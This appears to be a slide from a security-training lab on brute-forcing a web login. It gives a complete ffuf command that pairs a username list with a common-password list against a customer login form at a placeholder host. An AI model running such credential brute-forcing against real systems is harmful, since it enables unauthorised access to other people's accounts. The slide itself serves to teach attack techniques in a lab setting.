

Brute Force:
Note: If you created your valid_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

| -w |  |
| --- | --- |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |